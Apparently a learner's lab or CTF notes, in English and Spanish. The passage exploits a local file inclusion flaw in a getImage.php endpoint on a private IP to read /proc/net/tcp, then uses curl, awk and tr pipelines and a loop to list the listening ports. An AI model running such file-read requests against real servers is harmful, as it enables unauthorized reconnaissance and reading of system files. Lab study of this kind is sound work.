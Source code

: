 ```
|   |
|---|
|sl local_address rem_address st tx_queue rx_queue tr tm->when retrnsmt uid timeout inode|
||0: 00000000:0016 00000000:0000 0A 00000000:00000000 00:00000000 00000000 0 0 13923 1 00000000b8622a19 100 0 0 10 0|
||1: 00000000:1F98 00000000:0000 0A 00000000:00000000 00:00000000 00000000 0 0 14111 1 00000000cd88e2ca 100 0 0 10 128|
||2: 00000000:1BA8 00000000:0000 0A 00000000:00000000 00:00000000 00000000 0 0 14109 1 00000000d74a7604 100 0 0 10 128|
||3: 0100007F:0CEA 00000000:0000 0A 00000000:00000000 00:00000000 00000000 106 0 14320 1 0000000058ffc320 100 0 0 10 0|
```

So with curl we are going to get this lines
```
curl -s -X GET "http://192.168.0.64/cgi-data/getImage.php?file=/proc/net/tcp" | tail -n 4
```
i need to see more info about tail -n on this pipe
```
curl -s -X GET "http://192.168.0.64/cgi-data/getImage.php?file=/proc/net/tcp" | tail -n 4 | awk '{print $2}'
```
(this filters on the second argument)

```
00000000:0016
00000000:1F98
00000000:1BA8
0100007F:0CEA

```


```
curl -s -X GET "http://192.168.0.64/cgi-data/getImage.php?file=/proc/net/tcp" | tail -n 4 | awk '{print $2}' | tr ':' ' ' | awk 'NF{print $NF}' 
```
esto de tr transforma los : en espacios, y se queda con la parte dos, pero no entiendo bien el codigo
```
0016
1F98
1BA8
0CEA
```
valores hexadecimales, puertos abiertos afuera de la maquina

Un ciclo for, para tener esto...
```
for port in $(curl -s -X GET "http://192.168.0.65/cgi-data/getImage.php?file=/proc/net/tcp" | tail -n 4 | awk '{print $2}' | tr ':' ' ' | awk 'NF{print $NF}'); do echo "[+] Puerto $port "; done
```
esto...
```
[+] Puerto 0016
[+] Puerto 1F98
[+] Puerto 1BA8
[+] Puerto 0CEA
```
para pasar hexadecimal a decimal
